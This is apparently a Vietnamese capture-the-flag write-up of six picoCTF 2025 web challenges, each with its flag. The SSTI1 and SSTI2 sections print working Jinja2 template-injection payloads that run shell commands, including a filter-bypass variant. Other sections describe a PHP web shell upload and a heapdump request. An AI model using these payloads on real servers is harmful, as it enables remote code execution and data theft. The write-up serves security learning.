# All Challenge 
> CTF Time Event Link:
> https://play.picoctf.org/events/74
> 1. Cookie Monster Secret Recipe
> 2. head-dump
> 3. n0s4n1ty1
> 4. SSTI1
> 5. WebSockFish
> 6. SSTI2
## Background
> Start: 12:00am GMT+7 Mar 8, 2025  
> Ends: 12:00am GMT+7 Mar 10, 2025
## Cookie Monster Secret Recipe
### Tổng quan
> Người đóng góp : <b>tr1ck3r</b>  
> Được giải quyết bởi: <b>bl4ck0ut</b>  
> 5,910 giải quyết / 50 point  
> Độ khó chung đối với chúng tôi (từ 1 - 10 sao): ★☆☆☆☆☆☆☆☆☆
### Lý lịch
 Cookie Monster đã giấu công thức làm bánh quy tuyệt mật của mình ở đâu đó trên trang web của mình. Là một thám tử bánh quy đầy tham vọng, nhiệm vụ của bạn là khám phá bí mật ngon lành này. Bạn có thể qua mặt Cookie Monster và tìm ra công thức ẩn không? Bạn có thể truy cập Cookie Monster tại đây và chúc may mắn.
 
### Liệt kê
Trang mục lục: 

Khi chúng ta vào trang mục lục thì xuất hiện một bảng login đừng bận tâm và hãy nghĩ đến mô tả yêu cầu bài toán đang nói đến là một cái bánh quy tuyệt mật.
### Khai thác
Được trang bị những thông tin trên chúng ta có thể thực hiện truy xuất cookie của trang web có gì đặc biệt.

Phát hiện 1 secret_key bí mật và xác định đây được dạng mã base64 đem đi giải mã.
> Flag: picoCTF{c00k1e_m0nster_l0ves_c00kies_DE7A5E76}
### Kết Luận
Những gì chúng ta học được:
> Rỏ rỉ secret_key thông qua trình duyệt cookie.
## head-dump
### Tổng quan
> Người đóng góp : <b>tr1ck3r</b>  
> Được giải quyết bởi: <b>bl4ck0ut</b>  
> 4,085 giải quyết / 50 point  
> Độ khó chung đối với chúng tôi (từ 1 - 10 sao): ★☆☆☆☆☆☆☆☆☆
### Lý lịch
Chào mừng đến với thử thách! Trong thử thách này, bạn sẽ khám phá một ứng dụng web và tìm điểm cuối hiển thị tệp có chứa cờ ẩn. Ứng dụng là một trang web blog đơn giản, nơi bạn có thể đọc các bài viết về nhiều chủ đề khác nhau, bao gồm bài viết về Tài liệu API. Mục tiêu của bạn là khám phá ứng dụng và tìm điểm cuối tạo tệp lưu trữ bộ nhớ của máy chủ, nơi ẩn cờ bí mật.

### Liệt kê


Khi vào trang home của nó chúng ta thấy xuất hiện một trang web chứa các tài liệu về lập trình tới đây tiến hành click vào từng mục tài liệu xem thế nào
Khi click vào các mục nó không có gì và mình cùng nhìn lại quá khứ đề bài có nói đến một tài liệu API.

Ở đây có phần link API document mình sẽ xét tiếp tới phần đó.
Nó Xuất hiện trang web sau khi click vào API Document

Và mình phát hiện ra rằng có mục này đáng chú ý.
Vào burpsuite mình thử heap nó lên xem có những thông tin gì lộ không

Ổn áp rồi
### Khai thác

Từ những thông tin trên mình tiến hành thử dump file flags nào
`GET /heapdump/?filename=flags`

> Flags: picoCTF{Pat!3nt_15_Th3_K3y_305d5b9a}
### Kết Luận
Những gì chúng ta học được
> Trích xuất dữ liệu thông qua ứng dụng có endpoint như /heapdum dữ liệu thông qua bộ nhớ Heap.
## n0s4n1ty 1
### Tổng quan
> Người đóng góp : <b>tr1ck3r</b>  
> Được giải quyết bởi: <b>bl4ck0ut</b>  
> 2,691 giải quyết / 100 point  
> Độ khó chung đối với chúng tôi (từ 1 - 10 sao): ★★☆☆☆☆☆☆☆☆
### Lý lịch
Một nhà phát triển đã thêm chức năng tải ảnh đại diện lên trang web. Tuy nhiên, việc triển khai bị lỗi và nó mở ra cơ hội cho bạn. Nhiệm vụ của bạn, nếu bạn chọn chấp nhận, là điều hướng đến trang web được cung cấp và xác định vị trí khu vực tải tệp lên. Mục tiêu cuối cùng của bạn là tìm cờ ẩn nằm trong thư mục /root.

### Liệt kê
Trang mục lục:

Khi chúng ta vào trang mục lục xuất hiện một mục để cho chúng ta upload ảnh lên để cập nhật ảnh đại diện.
Tới đây nghĩ đến ưu tiên đầu tiên là lỗ hổng upload file rồi đúng không.
### Khai thác
Thử upload 1 file hình ảnh đúng với tiêu chuẩn lên làm add.

Vào burpsuite để fuzzz nó nào.

Tới đây thử đổi thành đuôi php để có thể upload web shell lên thử.

Tiến hành fuzz

À với challenge này đề bài yêu cầu phải ở trạng thái root mới có thể đọc được flag ẩn của nó.
Bằng cách sử dụng lệnh sudo <cmd> để thực thi ở trạng thái root

Đã ở trạng thái root
Tới đây list danh sách xem cờ ẩn.

Trích xuất cờ

> Flags: picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}
### Kết luận
Những gì đã học được
> Thực thi lỗ hổng Upload File để trích xuất dữ liệu thông qua quyền /root.
## SSTI1
### Tổng quan
> Người đóng góp : <b>tr1ck3r</b>  
> Được giải quyết bởi: <b>bl4ck0ut</b>  
> 2,833 giải quyết / 100 point  
> Độ khó chung đối với chúng tôi (từ 1 - 10 sao): ★☆☆☆☆☆☆☆☆☆
### Lý lịch
Tôi đã tạo một trang web tuyệt vời, nơi bạn có thể thông báo bất cứ điều gì bạn muốn! Hãy thử xem!

### Liệt kê

Mình thấy ô input mình thử nhâp 1 giá trị thử rồi submit xem sao.

Sau khi nhập giá trị nó reflected lại và cũng tên challenge xác nhận đây là 1 lổ hổng SSTI
Đưa payload {{7*7}}

Được rồi.
### Khai thác
Thực thi payload
<b>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}</b>

<b>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}</b>

<b>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}</b>

> Flags: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
### Kết luận
Những gì đã học được
> Khai thác lỗ hổng SSTI
## WebSockFish
### Tổng quan
> Người đóng góp : <b>tr1ck3r</b>  
> Được giải quyết bởi: <b>bl4ck0ut</b>  
> 1,022 giải quyết / 200 point  
> Độ khó chung đối với chúng tôi (từ 1 - 10 sao): ★★☆☆☆☆☆☆☆☆
### Lý lịch
Bạn có thể thắng một cách thuyết phục trước con bot cờ vua này không? Nó sẽ không dễ dàng với bạn đâu! Bạn có thể tìm thấy thử thách ở đây.

### Liệt kê
Trang mục lục:

Sau khi vào trang web thấy 1 bàn cờ vua tới đây tôi không biết thế nào thử vào burpsuite và tiến hành bắt request lại thử xem có gì đặc biệt.

Tôi thấy có hàm eval với giá trị tương ứng có lẽ nào các con số này là các giá trị để muốn chiến thắng conbot.
Sau vài lần thử các giá trị khác nhau.

Chỉ nhận được các thông báo như này và sau quá trình suy nghĩ thì tôi nghĩ chúng chắc đang so với 1 giá trị nào đó mà tôi đã truyền một giá trị vào có lẽ bị tràn bộ nhớ.
### Khai thác
Tôi thử truyền một giá trị cực lớn xem sao.

Ok được rồi tôi thử truyền số âm cực lớn luôn thử kiểm tra xem có thể khai thác lỗi logic chiến thắng nó không?

> Flags: picoCTF{c1i3nt_s1d3_w3b_s0ck3t5_dc1dbff7}
### Kết luận
Những gì chúng tôi đã học được:
> Khai thác lỗi logic hoặc tràn bộ nhớ thông qua lỗ hổng Web Socket.
## SSTI2
### Tổng quan
> Người đóng góp : <b>tr1ck3r</b>  
> Được giải quyết bởi: <b>bl4ck0ut</b>  
> 1,741 giải quyết / 200 point  
> Độ khó chung đối với chúng tôi (từ 1 - 10 sao): ★☆☆☆☆☆☆☆☆☆
### Lý lịch
Tôi đã tạo một trang web tuyệt vời, nơi bạn có thể thông báo bất cứ điều gì bạn muốn! Tôi đã đọc về việc khử trùng đầu vào, vì vậy bây giờ tôi xóa bất kỳ loại ký tự nào có thể gây ra vấn đề :)

### Liệt kê

Vẫn là form như SSTI
Tiến hành fuzz nhưng bây giờ là chuyện khác nó đã filter những lệnh cat hay import rồi

Sau mấy tiếng đồng hồ tôi đã thử mọi cách nhưng nó vẫn báo đừng cố làm nó thất vọng tôi đã nghĩ đến nó đã filter hết rồi.
Tới đây tôi đã đi tìm được 1 payload trên hacktrick có thể vượt qua bộ lọc chúng.
### Khai thác
Bypassing most common filters `('.','_','|join','[',']','mro' and 'base')` by
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
`

Thành công rồi.
Tới đay thì cứ theo từng bước để lấy cờ thôi.
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}`

`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
`

> Flags: picoCTF{sst1_f1lt3r_byp4ss_8b534b82}
### Kết luận
Những gì chúng tôi đã học được
> Khai thác lỗ hổng SSTI và vượt qua filter.

